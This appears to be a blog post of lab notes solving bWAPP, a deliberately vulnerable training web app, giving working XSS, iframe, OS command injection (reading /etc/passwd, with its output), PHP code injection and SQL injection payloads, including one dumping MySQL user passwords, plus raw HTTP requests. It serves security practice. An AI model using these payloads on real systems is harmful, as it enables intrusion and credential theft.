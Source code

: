 ```yaml
---
layout: post
title: bwapp
slug: bwapp
name: bwapp
---
```


# bwapp

## A1 HTML injection - Reflected (GET)

### low

{% highlight html %}

First name: <script>alert(1)</script>
Last name: <script>alert(2)</script>

{% endhighlight #}

### medium

{% highlight html %}
First: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
Last: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%32%29%3c%2f%73%63%72%69%70%74%3e
{% endhighlight %}

### high

??

## A1 HTML Injection - Reflected (POST)

### Low: 

{% highlight html %}
First: <script>alert(1)</script>
Last: <script>alert(1)</script>
{% endhighlight %}

### Medium:

{% highlight html %}
First: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
Last: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%32%29%3c%2f%73%63%72%69%70%74%3e
{% endhighlight %}

### High:

??

## A1 HTML Injection - Reflected (URL)

### Low

Set host in request to whatever you want

## A1 Html Injection - Stored (Blog)

{% highlight html %}
<script>alert(1)</script>
{% endhighlight %}

## Iframe injection

?ParamUrl=robots.txt" onload="alert(1)&ParamWidth=250&ParamHeight=250

## SMTP Injection

Doesn't seem to work in docker image, but adding the following should execute:

To: malicious@email.com
Subject: Whatever

## LDAP Injection

Doesn't seem to work in VM

## OS Command Injection

{% highlight bash %}
www.nsa.gov;cat /etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false 

{% endhighlight %}

## Blind OS Command Injection

{% highlight bash %}
127.0.0.1;sleep 10s;
{% endhighlight %}

The key is to verify the request takes the amount of time you're telling it to

## PHP Code Injection

http://127.0.0.1:2000/phpi.php?message=phpinfo()

## Server-side includes injection

Doesn't seem to work on the docker version

## SQL Injection (get)

' or 1 union all select 1,2,User,Password,5,6,7 from mysql.user -- '


## SQL Injection (select/get)

0 or 1 != 1 union all select 1,2,3,4,5,6,7

## SQL Injection (POST/Search)

{% highlight bash %}
POST /sqli_6.php HTTP/1.1
Host: localhost:2000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Referer: http://localhost:2000/sqli_6.php
Cookie: security_level=0; PHPSESSID=5vmnafast16eicmr5tmf7b63h7
Connection: close
Upgrade-Insecure-Requests: 1

title=' or 1 = 1 -- '&action=search
{% endhighlight %}

## SQL Injection (post/select)

{% highlight bash %}
POST /sqli_13.php HTTP/1.1
Host: localhost:2000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Referer: http://localhost:2000/sqli_13.php
Cookie: security_level=0; PHPSESSID=5vmnafast16eicmr5tmf7b63h7
Connection: close
Upgrade-Insecure-Requests: 1

movie=0 or 1 != 1 union all select 1,2,3,4,5,6,7&action=go
{% endhighlight %}

## SQL Injection (ajax/json/jquery)

'%20or%201=1%20union%20all%20select%201,2,3,4,5,6,7--'

## SQL Injection (captcha)

Doesn't seem to function in the docker image

## SQL Injection (Login form/hero)

'%20or%201=1--'

## SQL Injection stored (xml)

## SQL Injection bline boolean-based

'%20or%20'a'='a

## SQL Injection ws/soap